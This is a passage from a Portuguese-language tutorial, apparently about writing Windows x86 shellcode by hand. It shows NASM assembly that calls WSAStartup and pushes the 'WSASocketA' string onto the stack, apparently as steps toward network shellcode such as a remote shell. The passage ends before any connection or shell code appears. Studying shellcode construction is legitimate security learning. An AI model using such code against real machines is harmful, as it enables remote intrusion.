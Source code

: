 Analisando o código de exemplo na [documentação](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup) da `WSAStartup()`, podemos ver que ela pode assumir o formato:

```cpp
WSAStartup(MAKEWORD(2, 2), wsadata_pointer)
```

Ela também precisa de um ponteiro para `WSADATA`, pois a `WSAStartup()` retorna um ponteiro para esta estrutura, portanto, precisamos alocar certo espaço para ela.

```nasm
WSAStartupCall:

	xor edx, edx    ;zerando registrador
	mov dx, 0x190   ;preparando espaço para WSADATA
	sub esp, edx    ;alocando o espaço para WSADATA
	push esp        ;movendo ponteiro para este espaço
	push edx        ;enviando o parametro wVersionRequested para stack
	call eax        ;chamando WSAStartup(MAKEWORD(2, 2), wsadata_pointer)
```

Conforme vimos antes, quando esta função é executada com sucesso, ela retorna zero no registrador `EAX`.

![](/img/posts/Pasted%20image%2020240722210848.png)

A próxima função a ser encontrada, é a `WSASocketA()`, podendo seguir os mesmos passos.

```nasm
WSASocketA:

	push 0x4e4e4174              ;movendo NNAt para stack
	sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
	push 0x656b636f              ;movendo ekco para stack
	push 0x53415357              ;movendo SASW para stack
	push esp                     ;movendo ponteiro da string para a stack

